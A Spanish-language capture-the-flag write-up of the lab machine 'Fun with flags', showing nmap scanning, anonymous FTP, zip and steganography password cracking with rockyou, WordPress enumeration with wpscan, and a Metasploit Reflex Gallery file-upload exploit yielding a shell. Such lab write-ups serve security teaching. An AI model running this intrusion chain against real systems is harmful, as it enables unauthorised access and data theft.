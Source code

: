 # Reto 3 The Big Bang Theory - Fun_with_flags
Herramientas utilizadas:
- nmap
- netcat
- dirbuster
- metasploit
- wpscan
- fcrackzip
- stegcracker

Este reto consiste en aplicar técnicas de hacking para encontrar 7 banderas en la máquina víctima. Luego de identificar el host procedemos a utilizar la herramienta ```nmap``` para determinar los servicios y versiones que corren por los puertos que tiene abiertos la máquina víctima.
```
nmap -sCV -p- 10.32.2.46
```
Como resultado obtenemos la siguiente información:
```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp           539 Mar 04 01:11 Welcome.txt
| -rw-r--r--    1 ftp      ftp           114 Mar 04 01:13 ftp_agreement.txt
|_drwxr-xr-x    9 ftp      ftp          4096 Mar 04 01:09 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.1.5
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cf:5c:ee:76:7c:48:52:06:8d:56:07:7f:f6:5d:80:f2 (RSA)
|   256 ab:bb:fa:f9:89:99:02:9e:e4:20:fa:37:4f:6f:ca:ca (ECDSA)
|_  256 ea:6d:77:f3:ff:9c:d5:dd:85:e3:1e:75:3c:7b:66:47 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 4 disallowed entries 
|_/howard /web_shell.php /backdoor /rootflag.txt
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Fun with flags!
1337/tcp open  waste?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|_    FLAG-sheldon{cf88b37e8cb10c4005c1f2781a069cf8}
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1337-TCP:V=7.80%I=7%D=4/22%Time=5EA014FB%P=x86_64-pc-linux-gnu%r(NU
SF:LL,2F,"FLAG-sheldon{cf88b37e8cb10c4005c1f2781a069cf8}\n")%r(GenericLine
SF:s,2F,"FLAG-sheldon{cf88b37e8cb10c4005c1f2781a069cf8}\n")%r(GetRequest,2
SF:F,"FLAG-sheldon{cf88b37e8cb10c4005c1f2781a069cf8}\n")%r(HTTPOptions,2F,
```
Nótese que el puerto 1337 de la máquina víctima nos proporciona la primera flag.
```
flag{cf88b37e8cb10c4005c1f2781a069cf8}
```
Además nos brinda información sobre los demás puertos abiertos (ftp 21, ssh 22, http 80). Podemos observar que el puerto 21 permite la autenticación al servicio ftp con usuario anonymous.

Luego de revisar los ficheros que se encuentran en el servidor ftp, encontramos en el directorio de Howard un archivo .zip protegido con contraseña y una nota.

<p align="center"> <img src="../../img_JCE_UCI2024/reto3-1.PNG" /> </p>
<p align="center"> <img src="../../img_JCE_UCI2024/reto3-2.PNG" /> </p>

Luego de descargarnos los archivos, utilizamos la herramienta ```fcrackzip``` para encontrar la contraseña del comprimido.
```
fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' super_secret_nasa_stuff_here.zip
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto3-3.PNG" /> </p>

Descomprimimos el archivo usando ```unzip``` y obtenemos una imagen cifrada por lo que tenemos que encontrar la contraseña de la imagen para ver el contenido.
```
unzip super_secret_nasa_stuff_here.zip
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto3-4.PNG" /> </p>

Utilizando la herramienta ```stegcracker``` encontramos la contraseña y visualizamos el contenido de la imagen obteniendo la seguda flag.
```
stegcracker marsroversketch.jpg /usr/share/wordlists/rockyou.txt
```
<p align="center"> <img src="../../img_JCE_UCI2024/reto3-5.PNG" /> </p>
<p align="center"> <img src="../../img_JCE_UCI2024/reto3-6.PNG" /> </p>

```
flag{b3d1baf22e078744ad7947519bf4}
```

Revisamos elpuerto 80 en la web y en un principio lo que obtenemos es una imagen:
<p align="center"> <img src="../../img_JCE_UCI2024/reto3-7.PNG" /> </p>

Con la herramienta ```dirbuster``` encontramos directorio de wordpress (**/music/wordpress/**).
```
dirb http://10.32.2.46
```
Posteriormente utilizamos la herramienta ```wpscan``` con la cual encontramos 2 vulnerabilidades y 3 usuarios potenciales
```
wpscan --url http://10.32.2.46/music/wordpress/
```
```
Vulnerabilidades:
- reflex gallery <= 3.1.3
- multiple plugin - jQuery pretty Photo (XSS)

Usuarios:
- footprintson themoon
- stleart
- kipke
```
Con la herramienta ```metasploit``` encontramos un exploit disponible para la vulnerabilidad **reflex** el cual usamos para ganar acceso en la máquina víctima.
<p align="center"> <img src="../../img_JCE_UCI2024/reto3-8.PNG" /> </p>

```
msfconsole
msf5 > search reflex
msf5 > use exploit/unix/webapp/wp_reflexgallery_file_upload
msf5 exploit(unix/webapp/wp_reflexgallery_file_upload) > set RHOST 10.32.2.46
msf5 exploit(unix/webapp/wp_reflexgallery_file_upload) > set TARGETURI /music/wordpress/
msf5 exploit(unix/webapp/wp_reflexgallery_file_upload) > exploit
meterpreter > shell
```

Dentro de la máquina víctima accedemos al directorio de Penny y listamos la tercera flag del reto.
<p align="center"> <img src="../../img_JCE_UCI2024/reto3-10.PNG" /> </p>

```
cat .FLAG.penny.txt
  RkxBRy1wZW5ueXtkYWNlNTJiZGIyYTBiM2Y40TlkZmIzNDIzYTk5MmIyNX0=
```
La flag se encuentra cifrada en base64 por lo que la llevamos a texto claro.
```
echo "RkxBRy1wZW5ueXtkYWNlNTJiZGIyYTBiM2Y40TlkZmIzNDIzYTk5MmIyNX0=" | base64 -d
```
Tercera flag: ```flag{dace52bdb2a0b3f89dfb3423a992b25}```
